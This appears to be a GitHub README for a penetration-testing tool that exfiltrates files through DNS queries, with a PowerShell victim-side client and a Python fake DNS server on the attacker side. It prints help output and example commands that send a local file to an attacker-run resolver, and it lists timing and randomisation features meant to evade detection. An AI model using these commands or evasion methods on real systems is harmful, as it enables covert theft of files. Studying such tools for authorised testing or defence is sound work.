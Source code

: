# DNS Exfil Tools

Simple penetration testing tools to execute file exfiltration through DNS and avoid common detection methods.

> Modules caption: \
:heavy_check_mark: Available \
:large_blue_circle: Under development \
:white_circle: To be developed

<br>

## Client Exfiltration
Deploy these tools on the target machine to exfiltrate files through DNS requests.
I'm still developing the client side for more than one programming language, to provide more compatibility with the system you are testing.

| Language | Available | Compression | Encryption |
| ------ | ------ | ------ | ------ |
| python3      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| powershell   | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| python2      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |
| Compiled C++ | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |

<br>

### Powershell module
Use the cmdlet `Get-Help` to get execution informations. You can use `Get-Help -detailed` to print a decent overview. \
Here is an instance:
```
NAME
    C:\Users\User\Desktop\dnsexfil.ps1

SYNOPSIS
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine

SYNTAX
    C:\Users\User\Desktop\dnsexfil.ps1 [-Server] <String> [-Domain] <String> [-File] <String> [[-Timeout] <Single>]
    [[-Length] <Int32>] [-Hash] [<CommonParameters>]


DESCRIPTION
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine
    At leats three parameters are needed:
    - Specify DNS resolver as Server parameter
    - Specify filename
    - Specify the fake or legit domain you want to query
    The fakeDNS-server must be listening on your machine

PARAMETERS
    -Server <String>
        (Required) IP address of the listening DNS resolver

    -Domain <String>
        (Required) Fake or legit domain for DNS queries. Your fakeDNS-server will answer to both

    -File <String>
        (Required) Path to the file to exfiltrate through DNS queries

    -Timeout <Single>
        (Optional) Set a timeout between queries to slow down or speed up exfiltration. Default value is 2s

    -Length <Int32>
        (Optional) Set the third domain length. Default value is 16

    -Hash [<SwitchParameter>]
        (Optional) Include hash calculation in exfiltration for integrity purposes

    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer, PipelineVariable, and OutVariable. For more information, see
        about_CommonParameters (https:/go.microsoft.com/fwlink/?LinkID=113216).

    -------------------------- EXAMPLE 1 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt

    Use 10.10.80.129 as the fakeDNS-server, and send the file C:\Users\Name\file.txt asking for resolution of [***].fakedomain.com:

    -------------------------- EXAMPLE 2 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt -Length 32 -Timeout 10 -Hash

    DNS queries will be like [32-long-chunk].fakedomain.com and will be going out every 10 seconds
```

<br>

---

### Features and @TODOs
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set timeout between DNS requests to slow down exfiltration and prevent detection |
| :heavy_check_mark:  | Set random timeout between requests to prevent periodically checks detection |
| :heavy_check_mark:  | Set fake domain or legit domain for DNS queries, the DNS server listening on your machine will respond to both |
| :heavy_check_mark:  | Set custom exfiltration third level domain chunks length |
| :heavy_check_mark:  | Send filename as first action |
| :heavy_check_mark:  | Optional: md5 file hash trasmission before file content for integrity checks|
| :large_blue_circle: | Optional: print server's response as record A resolution to verify queries |
| :large_blue_circle: | Optional: Compress files to exfiltrate to speed up the process |
| :white_circle:      | Optional: file encryption to prevent network sniffers to rebuild exfiltrated artifacts |
| :white_circle:      | Optional: Send multiple files at once |
| :white_circle:      | Optional: Send entire directory as compressed file |

<br>
<br>

## Fake DNS Server
Developed with Python3, the server module will provide a simple fake DNS server to get client's queries from your attacking machine, and responde with a spoofed IP of your choice (default is google.com's).

### Features and @TODOs
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set custom IP to spoof as record A response |
| :heavy_check_mark:  | Set custom domain for further automated file decode |
| :heavy_check_mark:  | Set custom UDP port for DNS service (default is 53) |
| :large_blue_circle: | Get filename from exfiltration first chunk |
| :large_blue_circle: | Optional: automated file decode/save |
| :large_blue_circle: | Compression receiving capabilities |
| :white_circle:      | Optional: file decryption and save |

<br>
<br>

## Use case
### Attacker side (fake DNS server)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/fakeDNS-server3.gif)
### Victim side (exfiltration tool)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/dnsexfil3.gif)

